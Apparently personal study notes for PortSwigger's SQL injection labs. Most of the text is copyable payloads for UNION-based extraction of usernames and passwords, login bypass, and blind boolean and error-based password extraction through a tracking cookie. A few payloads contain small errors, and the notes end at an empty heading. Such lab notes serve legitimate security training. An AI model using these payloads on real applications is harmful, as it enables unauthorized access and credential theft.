 https://portswigger.net/web-security/sql-injection 
https://portswigger.net/web-security/sql-injection/blind
https://portswigger.net/web-security/sql-injection/cheat-sheet
## Labs:
## 1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

SQL injection attack that causes the application to display one or more unreleased products.

	SELECT * FROM products WHERE category = ' OR 1=1--

```
	.../filter?category= ' OR 1=1--
```

## 2. SQL injection vulnerability allowing login bypass

SQL injection attack that logs in to the application as the `administrator` user.

```
.../my-account?id=administrator'--
```

## 3. SQL injection querying the database type and version on Oracle

 ```
 'UNION SELECT'a','b' FROM dual--
```

 Display the database version:
```
 'UNION SELECT 'a', banner FROM v$version--
```

## 4. SQL injection attack, querying the database type and version on MySQL and Microsoft

In Microsoft database we can payload without to specify FROM table, instead we can comment with "#" right after selected columns:
 ```
 'UNION SELECT'a','b'#
```

 Display the database version:
```
 'UNION SELECT 'a', @@version#
 ```

## 5. SQL injection attack, listing the database contents on non-Oracle databases

```
' UNION SELECT 'abc','def'--
```

Retrieve the list of tables in the database and find the name of the table containing user credentials
```
' UNION SELECT table_name, null FROM information_schema.tables--
```

Replacing the table name to retrieve the details of the columns in the table:
```
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users_abcdef'--
```

Replacing the table and column names to retrieve the usernames and passwords for all users:
```
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

## 6. SQL injection attack, listing the database contents on Oracle

```
' UNION SELECT 'a', 'b' FROM all_tables--
```

```
' UNION SELECT 'a', table_name FROM all_tables--
```

```
' UNION SELECT 'a', column_name FROM all_tab_columns WHERE table_name='USERS_EIEFAP'--
```

```
' UNION SELECT USERNAME_LFECQG, PASSWORD_MSPEUR FROM USERS_EIEFAP--
```

## 7. SQL injection UNION attack, finding a column containing text

```
' UNION SELECT 'qHuBUo',null,null FROM information_schema.tables--
```

```
' UNION SELECT null,'qHuBUo',null FROM information_schema.tables--
```

```
' UNION SELECT null,null,'qHuBUo' FROM information_schema.tables--
```


## 8. SQL injection UNION attack, retrieving data from other tables

```
' UNION SELECT null,null--
```

```
' UNION SELECT null, table_name FROM information_schema.tables--
```

```
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users'--
```

```
' UNION SELECT username, password FROM users--
```

## 9. SQL injection UNION attack, retrieving multiple values in a single column

```
' UNION SELECT 'a',null--   ERROR 500 (first position is not string based)
```

```
' UNION SELECT null,'a'--   ERROR 200 (so only the second one is)
```

In order to retrieve data we need to do that only on the second position using concatenation:
![[Pasted image 20240627154432.png]]
```
(...)

' UNION SELECT null, username|| '-' ||password FROM users--
```

			![[Pasted image 20240627154411.png]]
			

## 10. Blind SQL injection with conditional responses(MYSQL)

We will perform injection based on the session cookie (response = welcome back message)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh
```

Blind testing using boolean conditioning
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND 1=1--
```

```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND 1=0--
```

Blind testing for users table
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT 'a' FROM users LIMIT 1)='a'--
```

Testing for username row value = administrator
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT 'a' FROM users WHERE username='administrator' LIMIT 1)='a'--
```

Checking the char. length of the password
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1 )='a'--
```

Using a Sniper Payload for efficiency&speed (found that password length = 20)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§ )='a'--
```

Checking if first character of the password = 'a' using SUBSTRING(field, position, length)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'--
```

Using Cluster Bomb payload for efficiency&speed for all the positions (1-20)(a-z)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§'--
```


## 11. Blind SQL injection with conditional errors(ORACLE)

We will perform injection based on the session cookie (internal server error: positive response) 
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh
```

```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND 1=1--NO ERROR or Message
```

```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND 1=0--NO ERROR or Message
```

So we will use a different conditional approach:

If (1=0) --> FALSE so will result no error because of ELSE 'a' (we will loose track of injection)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a'--
```

If (1=1) --> TRUE  so will result error because of TO_CHAR(1/0) (we will build our logic on this)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a'--
```


If LENGTH(password)>1 --> error which means that we are on the track  
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a'--
```

Using a Sniper Payload for efficiency&speed (found that password length = 20)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT CASE WHEN (password)>§1§ THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a'--
```

If SUBSTR(password,1,1) = 'a' --> error which means that we are on the track
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT CASE WHEN SUBSTR(password,1,1) = 'a' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a'-- 
```

Using Cluster Bomb payload for efficiency&speed for all the positions (1-20)(a-z)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT CASE WHEN SUBSTR(password,§1§,1) = '§a§' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a'-- 
```


## 12.  Visible error-based SQL injection
